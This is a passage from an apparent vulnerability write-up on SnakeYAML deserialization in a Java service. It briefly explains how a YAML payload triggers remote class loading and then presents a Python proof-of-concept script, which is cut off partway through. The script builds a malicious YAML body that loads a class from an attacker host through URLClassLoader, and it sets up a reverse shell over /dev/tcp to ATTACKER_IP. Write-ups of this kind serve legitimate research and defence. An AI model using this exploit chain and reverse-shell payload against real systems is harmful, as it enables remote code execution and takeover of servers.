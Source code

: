 In this situation, I write a string `ExploitClass` into `ScriptEngineManager`. But when I send request again, it said that `ExploitClass.class` is 404 not found. 

So the last step is build `ExploitClass.java` and then using command `javac` to compile into file `ExploitClass.class`.

![image](img/analyze_3.png)

## Proof of Concept
### PoC script

First, you need to run this script in your machine, this will automately create ExploitClass and send the payload to the victim. 

```py
#!/usr/bin/env python3
import requests
import random
import os
import sys
import base64
import threading
import subprocess

BASE_URL = "BASE_URL"
ATTACKER_IP = "ATTACKER_IP"
ATTACKER_PORT = "ATTACKER_PORT"
REVSHELL_PORT = "REVSHELL_PORT"
CMD = f"sh -i >& /dev/tcp/{ATTACKER_IP}/{REVSHELL_PORT} 0>&1"


def payload():
    data = f"""
    !!com.example.snakeyaml.Student
    age: {random.randint(1, 100)}
    id: {random.randint(1000, 9999)}
    department: !!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://{ATTACKER_IP}:{ATTACKER_PORT}/"]]]]
    firstName: masa
    lastName: mune
    """
    headers = {"Content-Type": "application/x-yaml"}

    response = requests.post(BASE_URL, headers=headers, data=data)

    print(f"[+] Sending payload to {BASE_URL}")

def create_service():
    os.makedirs("./META-INF/services", exist_ok=True)
    with open("./META-INF/services/javax.script.ScriptEngineFactory", "w") as f:
        f.write("ExploitClass")
    print("[+] Service created")


def create_java_file():
    cmd = base64.b64encode(CMD.encode()).decode()
    with open("ExploitClass.java", "w") as f:
        f.write(
            f"""
import javax.script.ScriptEngine;
```